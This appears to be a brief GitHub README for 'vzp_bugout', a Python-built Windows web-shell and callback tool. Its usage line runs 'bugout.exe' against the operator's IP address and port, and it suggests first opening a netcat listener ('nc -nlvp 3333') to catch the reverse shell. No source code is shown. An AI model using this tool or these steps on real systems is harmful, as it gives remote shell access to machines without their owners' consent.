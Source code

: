 # vzp_bugout
fun with python, windows web shells, and trying to get more interactive callbacks
<br>
The python is here, feel free to steal, that's what I did.
<br>
USAGE:  bugout.exe <youripaddr> <yourportlistener>
<br>
maybe setup a: nc -nlvp 3333 first or something.
<br>
No idea how this really works yet...
